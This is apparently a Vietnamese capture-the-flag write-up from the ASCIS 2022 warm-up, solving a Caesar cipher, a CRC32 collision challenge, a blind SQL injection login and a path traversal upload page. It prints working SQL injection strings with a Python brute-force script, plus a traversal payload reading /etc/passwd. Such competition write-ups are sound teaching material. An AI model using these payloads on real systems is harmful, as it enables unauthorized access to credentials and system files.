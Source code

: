 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho, chuẩn bị bắt tay vào code ... thì BTC fix lại đề, cập nhập thêm vế else uiiii thiên thời địa lợi nhân hòa, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Lúc brute tool này thì cơ bản xem máy nào mạnh hơn thôi</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLI ở login
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Như vậy có thể đoán được password của user flag chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là: **`flag`**
* Nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai
* Ở đây mình không dùng query ở dạng char để so sánh vì SQL không phân biệt chữ hoa hay chữ thường, đúng vậy 's' = 'S' là **true** đấy. Lúc còn 30' cuối một thằng trong team la lên mới nhận ra chổ này, chuyển sang lại dec để brute, nếu không hẳn là quằng lắm :)).

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Top 10 khu vực miền nam - một câu RE2 chưa solve được</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team
>
> Lâu rồi mới có cảm giác thú vị như những ngày đầu tiên tham gia CTF
>
> 4 tiếng thi đấu - Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi
>
> Cảm ơn ae.



Thanks for reading. Have a good day :heart: !
